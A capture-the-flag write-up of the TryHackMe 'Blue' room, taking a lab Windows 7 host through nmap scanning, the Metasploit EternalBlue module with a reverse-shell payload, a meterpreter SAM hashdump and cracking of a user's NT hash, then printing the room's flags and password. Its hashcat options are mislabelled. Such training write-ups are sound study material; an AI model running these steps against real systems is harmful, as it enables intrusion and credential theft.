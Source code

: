 # Blue

Author: Corbett Stephens July 14, 2021

Blue is a TryHackMe room that explores the "Eternal Blue" exploit from older versions of windows. 

Room is [here](https://tryhackme.com/room/blue).

---

The first thing I do is start up openvpn that way I can connect to the TryHackMe rooms.

`sudo openvpn nullbett.ovpn`

## Reconnaissance
Host ip address: `10.10.48.230`

Next, I ping the host to see if we can get a response.

`ping 10.10.48.230`

Respones:

('''
PING 10.10.48.230 (10.10.48.230) 56(84) bytes of data.
64 bytes from 10.10.48.230: icmp_seq=1 ttl=125 time=180 ms
64 bytes from 10.10.48.230: icmp_seq=2 ttl=125 time=202 ms
64 bytes from 10.10.48.230: icmp_seq=3 ttl=125 time=224 ms
64 bytes from 10.10.48.230: icmp_seq=4 ttl=125 time=144 ms
64 bytes from 10.10.48.230: icmp_seq=5 ttl=125 time=167 ms
64 bytes from 10.10.48.230: icmp_seq=6 ttl=125 time=189 ms
^C64 bytes from 10.10.48.230: icmp_seq=7 ttl=125 time=212 ms
64 bytes from 10.10.48.230: icmp_seq=8 ttl=125 time=235 ms
^C
--- 10.10.48.230 ping statistics ---
8 packets transmitted, 8 received, 0% packet loss, time 7010ms
rtt min/avg/max/mdev = 144.010/193.973/235.202/28.333 ms
''')

We can see that the host is up and running, so now we can start with a nmap scan.

I run the command:
`nmap -p0-1000 -sC -sV -vv 10.10.48.230 -oN initial.nmap`

- "-p0-1000" scans the first 1000 ports
- "-sC" uses the default script for enumeration
- "-sV" tries to specify versions
- "-vv" extra verbosity
- "-oN initial.nmap" writes the output to the file initial.nmap

Looking at the [output](https://github.com/nullbett/tryhackme/blob/main/blue/initial.nmap) we can see that three ports are open.



PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows




We also get a hint that a potential user is "Jon".

The next thing I would do is run another nmap scan to look for vulnerablities. This could be done in the initial nmap scan but I decided to use two seperate scans. If stealth was a concern then I would otherwise use a different command.

I'm used the same command but changed the script to "vuln".

`nmap -p0-1000 --script vuln -sV -vv 10.10.48.230 -oN vuln.nmap`

Luckily, the results yield some intersting information.
<div>
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
</div>

Do to our vuln script we can see that this system is vulnerable to smb-vuln-ms17-010 which is a remote code execution vulnerability.

A simple google search of "smb-vuln-ms17-010" will pull up the information about this vulnerability. Reading the first line of the [article](https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html) we can see that ms17-010 is also known as "EternalBlue". This is helpful information because it will make it easier a module to use within metasploit.

---

#Gaining Access

We now want to try to gain futher access of this machine. We have a potential attack vector with EternalBlue. For someone that doesn't know the first step in using the EternalBlue exploit, use your favorite search engine to look for a starting position.

Fire up Metasploit!

In Kali Linux, you can do this by searching metasploit in the home bar and then typing in your sudo password. Otherwise, you'll want run "sudo msfdb init && msfconsole"

Once the metasploit shell is spawned the fun can begin.

Since my initial attack vector consists of EternalBlue, then I will look for a module that will allow me to use it.

This can be done via:
"search eternalblue" 

The module we want is "exploit/windows/smb/ms17_010_eternalblue" because this uses windows versions prior to windows 8

![](ms_module.png)

An easy way to select the module you want to use is to enter "use <number>" so we would enter "use 2"

We want to know the required fields for this module. This can be done by entering the command "options". This will allows us to see some important information.

**Picture**

We need to set the RHOSTS which is the target host that we are attacking. We do this by entering:

"set RHOSTS 10.10.48.230"

The playload we want to use is the "windows/x64/shell/reverse_tcp"

We can set this as the payload by doing "set payload windows/x64/shell/reverse_tcp"

To run the exploit we can simply enter "exploit"

If the exploit is successful then a DOS (disk operationg system) will appear. 

If we run "whoami" it tells us that we are "nt authority\system"

We want upgrade this shell to a meterprerter shell. Background the current shell by doing "CTRL + Z". I used this article to help upgrade my shell https://www.hackingarticles.in/command-shell-to-meterpreter/ 


I used "sessions -u 1"

**PICTURE**

Now that we have our meterpreter shell, we can run "getsystem" to ensure that we are indeed "nt authority\system".

Just because our user is system, doesnt mean that the process is. We will want to switch our process to one that is running "nt authority\system". This is shown below.

**PICTURE**

Meterpreter has a handy command to dump the SAM database. SAM is the system accounts manager. The SAM database stores passwords locally. By using the "hashdump" command we can get this data and try to make something useful with it.

We get the following data:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

In this case, we are interested in Jon. I created a file named "jon_hash.txt" and put the hash values into the file. I decided that the long string of data was two 32 character hash strings and put them on seperate lines. To crack this hash, I used hashcat. I ran the following command. 

hashcat -m 0 -a 0 jon_hash.txt ./rockyou.txt --show

"-m 0" straight mode
"-a 0" MD5
"jon_hash.txt" hash file
"./rockyou.txt" dictionary
"--show" show results

john jon.hash --format=NT --wordlist=./rockyou.txt
john jon.hash --format=NT --show
Jon:alqfna22:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

password:alqfna22

#Task 5: Find Flags!

The first flag can be found by 'cd \' and then type 'flag1.txt'

Flag 1: flag{access_the_machine}

The second flag is found in config
C:\Windows\system32\config
"cat flag2.txt"

Flag 2: flag{sam_database_elevated_access}

Flag 3 can be found in C:\Users\Jon\Documents

Flag 3: flag{admin_documents_can_be_valuable}
